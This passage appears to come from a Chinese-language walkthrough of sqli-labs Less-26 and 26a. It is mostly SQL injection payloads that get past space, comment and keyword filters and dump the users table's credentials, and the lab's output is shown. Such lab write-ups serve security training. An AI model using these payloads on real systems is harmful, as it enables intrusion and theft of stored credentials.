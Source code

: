 ?id=-1 union select 1,group_concat(column_name),3 from infoORrmation_schema.columns where table_schema='security' aANDnd table_name='users' '

返回：id,username,password

?id=-1 union select 1,group_concat(concat_ws(':',username,passwoORrd)),3 from users -- +

返回：Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:456,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4,【rr:ee,admin#:111111,admin'#:111】（这些是Less-24写入的新用户名和密码）

## Less-26

**过滤注释符和空格-报错注入**

这一关过滤了注释符和空格，同时or、and也被过滤了

输入?id=1'时报错，确定存在单引号字符型注入

对于被过滤的字符，可以使用其他的字符进行替代，使用 “%a0” 或 “%0b” 替代空格，使用 “||” 替代 “or”，使用 “%26%26” 替代 “and”。例如：

```
-1' || 1 = 1  || '
```

```
?id=-1' || updatexml(1,concat(0x7e,database()),1) || '1'='1

?id=1' || updatexml(1, concat(0x7e, (SELECT (group_concat(table_name)) FROM (infoorrmation_schema.tables) WHERE (table_schema='security'))) ,1) || '1'='1

?id=1'||updatexml(1,concat(1,(SELECT (group_concat(column_name)) FROM (infoorrmation_schema.columns) WHERE (table_schema='security' %26%26 table_name = 'users'))) ,1) || '1'='1

?id=-1' || updatexml(1,concat(0x0a,(SELECT(group_concat(concat_ws(0x3a,username,passwoorrd))) FROM (security.users) WHERE (id = 1) ))  ,1) || '1'='1
```

## Less-26a

**过滤注释符，空格-union注入**

和less-26过滤的基本一样，但这一关没有给出报错信息，无法用报错注入。此处就需要使用 URL 编码来代替空格，然后用 UNION 注入。判断有几列可用，别忘了 “ORDER” 中的 “or” 被过滤掉了。

?id=1'

?id=1')

?id=1') || (' 闭合成功

%a0 空格

%27 '

```
?id=1')%a0OorRDER%a0BY%a03||('1

?id=9999')%a0UNION%a0SELECT%a01,2,3%a0||('1

?id=9999')%a0UNION%a0SELECT%a01,database(),3%a0||('1

?id=9999')%a0UNION%a0SELECT%a01,group_concat(table_name),3%a0FROM%a0infoORrmation_schema.tables%a0WHERE%a0table_schema = 'security'%a0||('1')=('2

?id=9999')%a0UNION%a0SELECT%a01,group_concat(column_name),3%a0FROM%a0infoORrmation_schema.columns%a0WHERE%a0table_schema='security'%a0AandND%a0table_name='users'%a0||('1')=('2

?id=9999')%a0UNION%a0SELECT%a01,group_concat(concat_ws(":",username,passwoORrd)),3%a0FROM%a0users%a0WHERE%a0('1
```
